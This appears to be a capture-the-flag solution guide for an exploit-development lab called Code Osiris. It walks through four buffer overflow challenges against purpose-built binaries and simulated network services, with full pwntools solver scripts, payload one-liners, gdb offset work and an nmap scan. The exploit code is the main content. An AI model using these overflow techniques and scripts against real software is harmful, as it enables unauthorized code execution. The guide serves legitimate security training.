









# Code Osiris

*Solution Guide*

## Overview

This Solution Guide will provide you all the information needed to complete this exploit development challenge.

NOTE: Please note that your IPs may vary within the challenge, however, it is recommended that `hostnames` be used. 

## Question 1

*Determine the offset required to exploit the binary (integer) using pwntools or pattern_create and pattern_offset. Once exploited, TOKEN1 will be revealed.*

After reading the `recruit briefing`, we find that there are three key elements to solving this first and important question:
* Determining the offset needed to control the binary's execution
* Locating the address of the secret function
* Creating a payload that combines these two objectives and deploying it against the binary to retrieve TOKEN1.


### Downloading the binary

First, we must download the binary from `lab.yara.hq`. The file presented will not be executable - use the following command to achieve this:

```bash
chmod +x ./code_osiris_v1
```

### Normal functionality

Interact with the binary using the following command; you will presented with the following output: 

```bash
./code_osiris_v1
Welcome to Code Osiris v1!
Enter your input here: TEST
You entered: TEST
```

Under normal circumstances, you will be presented with either a reflection or a standard exit (no additional output).

### Abusing the binary

Next, re-run the application but attempt to flood the input field with a large volume of characters:

```bash
akuma@devops:~/Downloads$ ./code_osiris_v1 
Welcome to Code Osiris v1!
Enter your input here: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

We now notice a `segmentation fault` or memory core dump that resulted from the application crashing upon reading our payload. Crashing application and examining the "wreckage" can help us understand how it works normally and potentially how to begin mapping out ways to take control of it.

<details>
<summary> Mini Assembly Crash Course Primer</summary>
We now know that the application has a hardened limit to which data passed to it in excess causing a crash. Additionally, we know that it does have the capacity to operate normally (stay with me here).
Using these two simple facts give us direction as to the next steps needed to take control of the application.

Let's first determine the buffer limit by using `gdb` and disassembling the `main` function and then we disassemble the main function and look for the first `sub` instruction:



From a memory allocation perspective, systems first "pre-set" spaces before they are taken up by data at an extremely low level.

Converting the "0x48" value present to an integer yields that the buffer limit is `72 bytes` (keep this for later).

### Registers

We now have determined what the buffer limit is and how to overflow it, however, we must now determine how to effectively control the flow by introducing these terms:
* RIP - Instruction Pointer (x64)
* RBP - Base Pointer (x64)

`RIP` tells the program *where to go next*, while RBP helps maintain the *starting point* of the application's execution. If you're familiar with x86 assembly, imagine these registers as EIP and EBP.

The execution flow is as follows as it pertains to x64-bit operations:

```text
[ buffer ] [ saved RBP (8 bytes) ] [ saved RIP (8 bytes) ]
```

This can also contain other text and formatting.
</details>

### Creating a measurable pattern

Here, we can introduce `pwntools` which acts as a python-based offensive security framework of tools. Using these tools we can quickly `create patterns for use in payloads` and then subsequently, determine `where` our payloads lands within registers. 

Once installed, we can use the `cyclic` function from the pwn package to determine where our pattern actually is in memory thus giving us a `map` by which to navigate it's execution from `within GDB`:

```gdb
!python3 -c "from pwn import *; open('pattern.txt', 'wb').write(cyclic(72))"
```

💡 NOTE: Using an exclamation point in gdb allows you to execute system commands without having to leave the current application thread. 

The reason we do this is because:
* Our buffer is `0x48` = 72 bytes
* We need 8 bytes to control RBP
* We need an additional 8 bytes to control RIP to get us to the secret function (soon to be found)

This gives us a total of 88 bytes to trigger full exploitation of this binary

### Putting it all together

Because our instructions give us the function name "secret" - we can search for that using `nm code_osiris_v1 | grep secret`.  This gives us the exact address of the function. 


Knowing this and our offset (88), we can get straight to the point: 

```bash
python3 -c 'from pwn import *; import sys; sys.stdout.buffer.write(b"A"*88 + p64(0x401210))' | ./code_osiris_v1
```


Alternatively, knowing just the function name and our flag pattern, we can use the following script:

```python
#!/usr/bin/env python3
#filename: flag1.py
#usage: python3 flag1.py 

from pwn import *
import re

context.arch = "amd64"
context.log_level = "info"

FLAG_RE = re.compile(rb"PCCC\{[^}\r\n]{1,200}\}")

def find_flag(data: bytes) -> bytes | None:
    m = FLAG_RE.search(data)
    return m.group(0) if m else None

def main():
    elf = ELF("./code_osiris_v1", checksec=False)
    secret = elf.symbols.get("secret")
    if secret is None:
        raise SystemExit("Could not find symbol: secret")

    log.info(f"secret() @ {hex(secret)}")

    # buf[64] + saved RBP (8) usually => 72, but compilers can pad.
    # Try aligned first, then bytewise around typical area.
    candidates = list(range(56, 121, 8)) + list(range(56, 181))

    for off in candidates:
        payload = b"A" * off + p64(secret)

        io = process(elf.path)
        # v1 prompts; not required to wait precisely.
        io.sendline(payload)
        out = io.recvall(timeout=1.5) or b""

        flag = find_flag(out)
        if flag:
            log.success(f"Found flag at offset={off}: {flag.decode(errors='replace')}")
            print(flag.decode(errors="replace"))
            return

    raise SystemExit("Failed to recover TOKEN1 (expand search window)")

if __name__ == "__main__":
    main()
```

Image of desired output: 



### Answer

The answer is the value of `TOKEN1`.

## Question 2

*Revealed after redirecting execution flow of the code_osiris_v2 binary to read the function called "secret"*.

### Downloading the binary

First, we must download the binary from `lab.yara.hq`. The file presented will, once again, not be executable - use the following command to achieve this:

```bash
chmod +x ./code_osiris_v2
```

An image of its location on the main site (http://lab.yara.hq) can be found here:



### Normal functionality

Interact with the binary using the following command:

```bash
./code_osiris_v2
```

Under normal circumstances, you will be presented with the following output.

```bash
┌──(user㉿85a2da107e67)-[~/Downloads]
└─$ ./code_osiris_v2 
=== CODE OSIRIS SPECIAL EDITION ===
 TIPS:
  • Crash the stack bytes to trigger overflow warning.
  • Craft input to overwrite the return address of
      vulnerable_function() with the secret() address.
  • Redirect flow accordingly to overwrite the return address and take control.
  • When secret() runs, it will decrypt and print the hidden token.

Usage: ./code_osiris_v2 [options] <input_string>
Options:
  -d, --debug           Show debug info (buffer and secret addresses)
  -m, --motd <msg>      Show message of the day
  -h, --help            Show this help message
```


### Obtaining the secret() function address

If we take a look closer, we find that the `debug` option may yield the addresses we will eventually need to redirect execution. Use the following command to retrieve this vital data:

```bash
./code_osiris_v2 -d <ANY STRING>
```

This will yield the following output (we used "A" as the <ANY STRING> value):

```bash
./code_osiris_v2 --debug A
```

The output is as follows:

```bash
┌──(user㉿85a2da107e67)-[~/Downloads]
└─$ ./code_osiris_v2 --debug A
=== CODE OSIRIS SPECIAL EDITION ===
 TIPS:
  • Crash the stack bytes to trigger overflow warning.
  • Craft input to overwrite the return address of
      vulnerable_function() with the secret() address.
  • Redirect flow accordingly to overwrite the return address and take control.
  • When secret() runs, it will decrypt and print the hidden token.

[DEBUG] buffer @ 0x7ffcf5f7b2b0
[DEBUG] secret() @ 0x401397

Received: A
```

As is seen in the instructions, this token is found by `redirecting execution flow in the code_osiris_v2 binary to the internal function named secret()`. Based on the `help menu's` output, it appears we have several areas that could be of use to us.


### Confirming the location of the secret() function

To determine the location of the `secret function`, we can simply use `nm`:

```bash
nm ./code_osiris_v2 | grep "secret"
```

You will receive the following output thus confirming our destination "pointer":



### Examining other areas for payload delivery

Interacting with the binary, we find that there are several areas to input user text:
* argv[1] or "the first argument" after calling the application (./code_osiris_v2 argv[1])
* After the Message of the Day (MOTD) flag (./code_osiris_v2 -m "Have a great day")
* After the debug option (./code_osiris_v2 -d <STRING>)

Only one of these has ties to `vulnerable_function()`.

### Building Trust
 
Since we are told that the secret() function `trusts` the output of the `vulnerable_function()` (via the default from the application on start), we need to find where exactly `vulnerable_function()` is being called from.
In the next section, we'll use GDB to find out `where` in the application the vulnerable_function() so we can abuse that buffer to get our redirect in motion.

### Determining how to get to "vulnerable_function()"

Let's start the application in GDB and break on vulnerable_function to inspect its argument. Start gdb with an obvious marker string as the first positional arg:

```bash
gdb --args ./code_osiris_v2 AAAABBBBCCCCDDDDEEEE
```

You will receive the following output which will confirm that you are "in" the vulnerable_function():



Based on the image's green arrows, we find that our buffer is in the `$RDI` register or x64 Destination Index and we are `still` in the vulnerable_function().

With this in mind, we now need to crash the bufferr to take control over it.

### Crashing the application
At this point, we need to determine a way to control vulnerable_function so we can redirect it to secret() to decrypt the ciphertext for us as we do not inherently have the decryption key.

Run this command to trigger a crash in the vulnerable_function():

```bash
./code_osiris_v2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
```

The result will be as follows:

```bash
──(user㉿85a2da107e67)-[~/Downloads]
└─$ ./code_osiris_v2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                     
=== CODE OSIRIS SPECIAL EDITION ===
 TIPS:
  • Crash the stack bytes to trigger overflow warning.
  • Craft input to overwrite the return address of
      vulnerable_function() with the secret() address.
  • Redirect flow accordingly to overwrite the return address and take control.
  • When secret() runs, it will decrypt and print the hidden token.

[WARNING] Your input (190 bytes) ≥ buffer size (128): overflow possible!

Received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault         (core dumped) ./code_osiris_v2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
``` 

This effectively prints `190 As` to the `first argument` of code_osiris_v2 and just like before, we can expect that the buffer will fill with these letters. Additionally, of note, we find that Code Osiris gives us pretty detailed feedback when we breach 128 bytes in the buffer!

```text
[WARNING] Your input (190 bytes) ≥ buffer size (128): overflow possible!
```

### Redirecting control to the secret() function to decrypt TOKEN2

Now that we are able to overwrite the buffer (greater than 128 bytes) and know the location of secret() function (0x4012b7), we need to put it altogether.

Below is a script that puts this all into play by taking the data passing to argv[1], automating the redirect to `secret` and then having it run it's decryption mechanism to get us TOKEN2:

Solver:

```python
from pwn import *

# Set logging to 'error' to keep the terminal clean during the loop
context.log_level = 'error'
elf = ELF("./code_osiris_v2", checksec=False)
secret_addr = p64(elf.symbols["secret"]).rstrip(b"\x00")

# Define the range to search (Buffer is 128, so we start there)
start_offset = 128
end_offset = 160

print(f"[*] Searching for correct offset to hit secret() @ {hex(elf.symbols['secret'])}...")

for offset in range(start_offset, end_offset + 1):
    # Construct the payload for this specific offset
    payload = b"A" * offset + secret_addr
    
    try:
        # Start the process with the current payload
        io = process([elf.path, payload], stderr=STDOUT)
        
        # We wait a brief moment for the token to appear
        output = io.recvall(timeout=0.5).decode(errors='ignore')
        
        if "TOKEN2:" in output:
            print(f"\n[!] SUCCESS! Found correct offset: {offset}")
            print("-" * 30)
            # Find and print the token line
            for line in output.split('\n'):
                if "TOKEN2:" in line:
                    print(line.strip())
            print("-" * 30)
            io.close()
            break
            
        io.close()
        
    except Exception:
        continue

else:
    print("\n[-] Search complete. No token found. Check if the binary is re-compiled without FORTIFY_SOURCE.")
```

The solver does the following:
* Has pwntools look for the location of secret()
* Creates a starting point for the first argument then increments payloads until it receives TOKEN2 in the body of output from secret()
* Sets a timeout between passes 
* Let's us know if the offset is NOT in the range specified in "start_offset" and "end_offset"

Once ran, we get the desired result:



Knowing the offset, we could replicate this with a single command: 

```bash
python3 -c 'from pwn import *; import sys; sys.stdout.buffer.write(b"A"*152 + p64(0x4012b7))' | xargs -0 ./code_osiris_v2 
```

### Answer

The correct answer is the value of `TOKEN2`.

## Question 3

*Engage the Code Osiris Remote Trainer* - successful exploitation will yield TOKEN3

1) We start this portion of the challenge by interacting with the application.  Based on our briefing, we are told to connect to port 9999 on `lab2.yara.hq`.  We can do this with netcat: `nc lab2.yara.hq 9999`

```bash
Connection to lab2.yara.hq 9999 port [tcp/*] succeeded!

 
█▀▀ █▀▀█ █▀▀▄ █▀▀ 　 █▀▀█ █▀▀ ░▀░ █▀▀█ ░▀░ █▀▀ 
█░░ █░░█ █░░█ █▀▀ 　 █░░█ ▀▀█ ▀█▀ █▄▄▀ ▀█▀ ▀▀█ 
▀▀▀ ▀▀▀▀ ▀▀▀░ ▀▀▀ 　 ▀▀▀▀ ▀▀▀ ▀▀▀ ▀░▀▀ ▀▀▀ ▀▀▀
R E M O T E     E X P L O T     T R A I N E R

Welcome to Level 3!

This is a simulated network binary challenge. 
Your mission is to CRASH the service, learn where the EIP would be overwritten,
and finally, deliver a special payload that will grant you the token!

Type HELP for instructions.


> 
```

2) Additionally, let's start to gather the inputs and prompts used by this application; using the `HELP` and `BOF` commands allow us to learn more about the features of the application and where to place our payload:

```bash
> HELP

Commands:
  HELP         - Show this help.
  BOF          - Send your buffer overflow payload.
  QUIT/EXIT    - Exit this session.

How it works:
- Type BOF to pull up the prompt to exploit
- Information about the remote buffer limits will be provided to you.
- If you overflow the "buffer", you'll see a simulated crash address.

Your goal: 
- Figure out the offset needed to control the EIP (shown as crash address).
- Then, craft a payload to set the crash address to 0xdeadbeef and receive your token!

> BOF

[+] Enter your buffer as raw bytes (e.g. 'AAAAAA'):
YOUR BUFFER > 
```

3) Entering a buffer of the wrong length will yield the following output:

```bash
[+] Enter your buffer as raw bytes (e.g. 'AAAAAA'):
YOUR BUFFER > AAAAAAAAAAA
Not enough bytes to reach EIP! Try again.
```

4) When close, you receive the following guidance:

```bash
[+] Enter your buffer as raw bytes (e.g. 'AAAAAA'):
YOUR BUFFER > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Too few bytes for this exploit! You need exactly 209 bytes (201 filler + 4 NOPs + 4 EIP).
```

5) When on target, you receive the following message:

```bash
[+] Enter your buffer as raw bytes (e.g. 'AAAAAA'):
YOUR BUFFER > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[CRASH] Program crashed! But you need 4 NOPs (\x90) after your buffer before EIP.
```

6) Once we have this set of prompts, let's begin to enumerate the application by sending buffers of arbitrary lengths. After some time, we find that 209 bytes is required to get us in position to overwrite the simulate Instruction Pointer:
Using the following script (which couples all of the information we've gathered) reveals TOKEN3:

```python
from pwn import *

host = "lab2.yara.hq"
port = 9999

payload = b"A" * 201         # Fill buffer
payload += b"\x90" * 4       # NOP sled
payload += p32(0xdeadbeef)   # EIP overwrite (little-endian)

r = remote(host, port)
r.recvuntil(b"> ")           # Wait for main menu prompt
r.sendline(b"BOF")           # Send BOF command
r.recvuntil(b"YOUR BUFFER > ")
r.send(payload)
print(r.recvall(timeout=2).decode(errors="ignore"))
```

7) Let's execute our payload:

```bash
akuma@devops:~$ python3 b01-q3-solver.py
[+] Opening connection to 172.27.0.30 on port 9999: Done
[+] Receiving all data: Done (149B)
[*] Closed connection to 172.27.0.30 port 9999

[WIN] Congratulations! You've overwritten EIP after your NOP sled.
TOKEN3: YOUR_SECURE_TOKEN3
Session closing. Try again to practice!
```

Here is an image of the desired output: 



### Answer

The correct answer is the value of TOKEN3 displayed in the following manner: `TOKEN3: <TOKEN>`.

## Question 4

*Revealed after compromising ABYSSNET and launching it's missile*

1) The instructions have us scan `abyssnet.dbs` to determine the location of the asset they compromised. They used a reverse shell to disable firewall rules allowing your connection directly into the ABYSSNET terminal.

```nmap
┌──(user㉿e0af2da144aa)-[~/Downloads]
└─$ sudo nmap -sT --stats-every 10s -T4 abyssnet.dbs
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-21 20:50 UTC
Nmap scan report for abyssnet.dbs (10.0.60.133)
Host is up (0.000061s latency).
rDNS record for 10.0.60.133: 67-code_osiris_abyssnet-16.competitor_net-67-16
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
9999/tcp open  abyss
MAC Address: 02:42:0A:00:3C:85 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

We find that `abyssnet.dbs` is the only asset available (not known to the attacker), up, and serving port `tcp/9999`. THIS is our target for exploitation.

2) Based on these settings, NMAP shows only one port available for exploitation: `tcp/9999`. Interacting with each yields the following output:



3) Typing `HELP` gives us a variety of options however, the two key options are `GLOSSARY` and `LAUNCH`:

GLOSSARY - tells the attacker that the jargon used in the terminal feedback refers to Auth Codes as Instruction Pointers.
LAUNCH - allows for entering of a "LAUNCH CODE" which is where we'll stage our overflow exploit.


4) Interacting with the LAUNCH feature gives various feedback depending on the input received:

```text
No valid overflow detected.
📊 Buffer length sent: 4
❌ Launch failed: Incorrect or missing code
```

The above example is presented when your "code" isn't long enough. In this case, the "buffer" is going to be our point of entry.

5) When given enough data, we find that the terminal reports we have caused a minor crash:

```text
Enter LAUNCH CODE (max 40 bytes):
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[DEBUG] Detected NOP sled: b'AAAA'
[DEBUG] Overflow Auth: 0x41414141
📊 Buffer length sent: 41
💥 SYSTEM FAILURE: Crash detected at return address 0x41414141
❗ Incorrect auth value. Use code 'SALT' (hex literal required) to launch.
```

💡 Please note that the MAX number of bytes allowed by the terminal is `40`. Additionally, we see that we overwrote an area known as a `NOP SLED` which is often used (technique) to "slide" an exploit developer into the right spot in memory to execute a subsequent payload. Finally, the word SALT must be used after the NOP Sled in `hex literal` format.

6) With all of this information in hand, we can build our exploit:

* We need a total of 40 bytes
* Of these bytes, four must be allocated to a NOP Sled ("\x90" * 4)
* Our Auth Code (RIP/EIP) is the hex literal version of the word "SALT" ("0x53414c54")
* We need an initial buffer of 32 bytes to pad this together

The result is viewed mathematically as 32 + 4 + 4 yielding the 40 bytes we need to launch the missile.

### PwnTools Version of the Exploit

The following exploit combines everything we've learned and will launch the missile.

```python
from pwn import *

# Change these as needed
HOST = "abyssnet.dbs"
PORT = 9999

def main():
    # Connect to the ABYSSNET service
    r = remote(HOST, PORT)

    # Wait for the first prompt
    r.recvuntil(b"> ")

    # Send the LAUNCH command
    r.sendline(b"LAUNCH")

    # Wait for the LAUNCH CODE prompt
    r.recvuntil(b"Enter LAUNCH CODE")

    # Build the payload: 32 bytes buffer + 4 NOPs + SALT (little endian)
    buf = b"A" * 32
    nops = b"\x90" * 4
    salt = b"SALT"  # b'\x53\x41\x4c\x54'

    payload = buf + nops + salt

    # Send the crafted launch code
    r.sendline(payload)

    # Print the full response
    result = r.recvall(timeout=5)
    print(result.decode(errors="ignore"))

if __name__ == "__main__":
    main()

```

After some processing, you will receive the following output:

```bash
$ python3 b01-q4-solver.py
[+] Opening connection to 192.168.1.30 on port 9999: Done
[+] Receiving all data: Done (359B)
[*] Closed connection to 192.168.1.30 port 9999
 (max 40 bytes):
[DEBUG] Detected NOP sled: b'\x90\x90\x90\x90'
[DEBUG] Overflow Auth: 0x544c4153
📊 Buffer length sent: 40
✅ LAUNCH CODE ACCEPTED. ☣️ NUCLEAR LAUNCH IN 5 SECONDS ☣️
♠️ OIC: yara.d4nt3
Just kidding. I can't believe you'd actually do this.
Welcome to the yara.* clan, 👓 Dante.
🔥 FINAL TOKEN (TOKEN4): TOKEN4
```

Here's a live example of the desired output:



### Answer 

The correct answer is the value of `FINAL TOKEN (TOKEN4): <TOKEN>`.

This concludes this Solution Guide.